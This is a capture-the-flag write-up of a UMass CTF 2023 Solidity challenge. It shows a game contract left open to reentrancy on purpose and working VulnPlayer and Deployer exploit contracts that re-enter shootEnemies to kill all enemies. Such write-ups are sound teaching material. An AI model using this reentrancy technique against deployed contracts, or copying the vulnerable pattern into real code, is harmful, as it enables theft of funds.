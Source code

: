 # CsGo but decentralised - blockchain

## Challenge

We receive a netcat connection and a few .sol files. The challenge uses the paradigmCTF infrastructure in which we first have to calculate a pow and then get our blockchain. For the calculation of the PoW, I just used the script provided by Zellic https://github.com/Zellic/example-ctf-challenge/blob/master/solve-pow.py. So let's take a look at the contracts:

The first one is the setup contract. It deploys the challenge contract and is solved if all 20 enemies are dead.

Setup
```solidity
pragma solidity ^0.8.13;

import "./Chal.sol";

contract Setup {
    Chal public immutable TARGET;
    constructor() payable {
        TARGET = new Chal();
    }

    function isSolved() public view returns (bool) {
        for (uint i = 0; i < 20; i++) {
            Enemy enemy = TARGET.enemies(i);
            if (!enemy.isDead()) {
                return false;
            }
        }
        return true;
    }
}

```

The next one is the most important, the challenge. We can see that we have 20 enemies and mappings for guns & bullets. We also have functions for grabbing a gun and shooting enemies.

```solidity
// SPDX-License-Identifier: UNLICENSED

// Challenge author: Shanyu Thibaut JUNEJA (sin), UMass Cyber-Security Club.
// Challenge prepared for UMass CTF 2023
pragma solidity ^0.8.13;

import "./Enemy.sol";
import "./Player.sol";

contract Chal {
    Enemy[20] public enemies;

    uint private players;

    mapping (address => bool) guns;
    mapping (address => uint) bullets;

    constructor() {
        for (uint i = 0; i < 20; i++) {
            enemies[i] = new Enemy();
        }
    }

    function grabGun() public {
        require(guns[msg.sender] == false, "You have already equiped your gun");
        require(players <= 20, "The game can only have 20 players on each team!");

        guns[msg.sender] = true;
        bullets[msg.sender] = 1;
        players += 1;
    }

    function shootEnemies() public {
        require(guns[msg.sender] == true, "You have to pick up a gun");
        require(bullets[msg.sender] > 0, "You have ran out of bullets");

        for (uint i = 0; i < 20; i++) {
            if (enemies[i].isDead())
                continue;
            
            enemies[i].shoot();
            break;
        }

        require (bullets[msg.sender] - 1 < bullets[msg.sender], "Nice integer underflow");
        Player player = Player(msg.sender);
        player.handleRecoil();
        
        bullets[msg.sender] = 0;
    }
}
```

The next contract we have is the Enemy. It seems to need to be shot 20x to be dead.

```solidity
// SPDX-License-Identifier: UNLICENSED
//
// Challenge author: Shanyu Thibaut JUNEJA (sin), UMass Cyber-Security Club.
// Challenge prepared for UMass CTF 2023
pragma solidity ^0.8.13;

import "./openzeppelin/Ownable.sol";

contract Enemy is Ownable {
    uint public health = 20;

    function shoot() public onlyOwner {
        require (health > 0, "Trying to kill a dead entity");
        health = health - 1;
    }

    function isDead() public view returns (bool) {
        return health == 0;
    }
}
```

The last one we get is the player interface. It seems like we need to implement the handleRecoil() function ourselves.

```solidity
// SPDX-License-Identifier: UNLICENSED
//
// Challenge author: Shanyu Thibaut JUNEJA (sin), UMass Cyber-Security Club.
// Challenge prepared for UMass CTF 2023
pragma solidity ^0.8.13;

import "./openzeppelin/Ownable.sol";

interface Player {
    function handleRecoil() external;
}
```

## Solution

The challenge shows a very basic reentrancy vulnerability. We can exploit the handleRecoil() function which is called before decreasing the number of bullets we have to not only be able to shoot once per player but as often as we want. 

I first implemented a VulnPlayer contract which abuses the Reentrancy attack to be able to kill one enemy (could also be more)

```solidity
// SPDX-License-Identifier: UNLICENSED
//
// Challenge author: Shanyu Thibaut JUNEJA (sin), UMass Cyber-Security Club.
// Challenge prepared for UMass CTF 2023
pragma solidity ^0.8.13;

import "./openzeppelin/Ownable.sol";
import "./Chal.sol";
import "./Enemy.sol";

contract VulnPlayer {
    uint256 index;
    Chal challenge;

    constructor(address target, uint256 index_)
    {
        challenge = Chal(target);
        index = index_;
    }

    function attack() public
    {
        challenge.grabGun();
        require(!(challenge.enemies(index).isDead()));
        challenge.shootEnemies();
        require(challenge.enemies(index).isDead());
    }

    function handleRecoil() external
    {
        if (!(challenge.enemies(index).isDead()))
        {
            challenge.shootEnemies();
        }
    }
}
```

I first tried just creating one vuln player and make him kill all the enemies but i was getting into issues with gas usage, so i jsut resorted to creating one player per enemy. I used a deployer contract that when you call the function kill5Enemies() kills 5 enemies at a time (also helpful for debugging and checking if it worked, before burning a lot of gas). Then i just deployed this Deployer contract and called the kill5Enemies() function 4x, which made the isSolved in the setup contract switch to true.

```solidity
// SPDX-License-Identifier: UNLICENSED
//
// Challenge author: Shanyu Thibaut JUNEJA (sin), UMass Cyber-Security Club.
// Challenge prepared for UMass CTF 2023
pragma solidity ^0.8.13;

import "./VulnPlayer.sol";

contract Deployer {
    uint256 public index;
    address target;

    constructor(address target_)
    {
        target = target_;
        index = 0;
    }

    function kill5Enemies() public
    {
        for(uint256 i = 0; i < 5; i++)
        {
            VulnPlayer player = new VulnPlayer(target, index);
            player.attack();
            index += 1;
        }
    }
}
```

